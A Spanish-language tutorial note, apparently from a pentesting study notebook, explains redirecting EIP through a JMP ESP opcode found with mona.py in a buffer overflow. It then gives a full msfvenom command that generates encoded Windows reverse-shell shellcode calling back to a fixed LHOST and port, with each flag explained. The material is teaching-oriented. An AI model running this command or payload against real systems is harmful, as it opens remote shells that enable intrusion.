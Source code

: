 -------
- Tags: #OpCodes #shellcode #esp #eip #msfvenom
-------
# Explicación

> Una vez que se ha generado el shellcode malicioso y se han detectado los badchars, el siguiente paso es hacer que el flujo del programa entre en el shellcode para que sea interpretado. La idea es hacer que el registro EIP apunte a una dirección de memoria donde se aplique un **opcode** que realice un salto al registro **ESP** (**JMP ESP**), que es donde se encuentra el shellcode. Esto es así dado que de primeras no podemos hacer que el EIP apunte directamente a nuestro shellcode.

Para encontrar el opcode **JMP ESP**, se pueden utilizar diferentes herramientas, como **mona.py**, que permite buscar opcodes en módulos específicos de la memoria del programa objetivo. Una vez que se ha encontrado el opcode ‘**JMP ESP**‘, se puede sobrescribir el valor del registro EIP con la dirección de memoria donde se encuentra el opcode, lo que permitirá saltar al registro ESP y ejecutar el shellcode malicioso.

La búsqueda de opcodes para entrar al registro ESP y cargar el shellcode es una técnica utilizada para hacer que el flujo del programa entre en el shellcode para que sea interpretado. Se utiliza el opcode JMP ESP para saltar a la dirección de memoria del registro ESP, donde se encuentra el shellcode.

------
# Generando Shellcode para entablar una Reverse Shell

¿Cómo generamos un Shellcode que a bajo nivel se encargue de entablar una Reverse Shell? Para esto tendremos que **generar** un conjunto de instrucciones en **Hexadecimal** representadas para meter en el **ESP**, para que cuando sea interpretada nos permita ganar acceso a la máquina, esto lo podemos hacer utilizando la herramienta ``msfvenom``, la cual es proveniente de la Suite de **Metasploit**.

- ``msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.0.194 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread``

Los parámetros utilizados recién realizan las siguientes acciónes.

- ``-p`` se utiliza para colocar el **Payload**, dependiendo del SO frente al que estemos y su arquitectura el Shellcode puede cambiar. Podemos hacer un 
- ``--platform`` se utiliza para indicar la plataforma, en nuestro caso ``windows``.
- ``-a`` se utiliza para indicar la arquitectura (*x86 Bytes* , *x64 Bytes*). Cuando se habla de "x86" en la actualidad, generalmente se hace referencia a la arquitectura de 32 bits porque las versiones modernas de esta arquitectura (antes de la aparición de x86-64 o x64) eran principalmente de 32 bits.
- ``LHOST=tu.ip`` se utiliza para indicar que queremos que nos genere un Shellcode que nos entable una **Reverse Shell** hacia la **IP** indicada.
- ``LPORT=puerto`` se utiliza para indicar el **puerto** por el que se tendrá que estar en escucha para **establecer la conexión**.
- ``-f`` se utiliza para indicar el **formato** que queremos que nos brinde la herramienta en el Encoder.
- ``-e`` se utiliza para indicar el **Encoder** de manera manual
- ``-b`` se utiliza para especificar los **Badchars** entre comillas simples. Ejemplo: ``'\x00\x0a\x0d'``

